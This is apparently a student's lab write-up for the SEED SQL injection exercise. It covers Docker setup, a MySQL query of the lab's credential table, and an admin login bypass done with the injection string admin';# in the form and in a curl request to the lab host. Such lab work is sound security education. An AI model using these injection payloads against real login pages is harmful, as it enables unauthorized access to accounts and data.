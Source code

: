 * Setup 
*** cd category-web/Web_SQL_Injection/Labsetup
*** docker-compose up
*** add 10.9.0.5 with host name www.seed-server.com in /etc/hosts file in the host machine
*** Go to www.seed-server.com and if you find the login page then the setup is complete


* Task 1 
*** docker exec -it mysql-10.9.0.6 /bin/bash
*** mysql -u root -pdees
*** use sqllab_users;
*** show tables;
*** select * from credential where Name='Alice';
*** Get the screenshot

#+CAPTION: Employee Record of Alice 
[[./screenshots/task-1-alice-record.png]]


* Task 2

** Task 2.1
*** Type {{admin';#}} in the username field and anything in the password field
#+CAPTION: Login as admin
[[./screenshots/task-2_1-login-admin.png]]
** Task 2.2
*** curl -s 'www.seed-server.com/unsafe_home.php?username=admin%27%3b%23&Password=123'
*** Run [[./scripts/task-2_2.sh]] to automatically verify whether the request can get you logged as admin.
** 
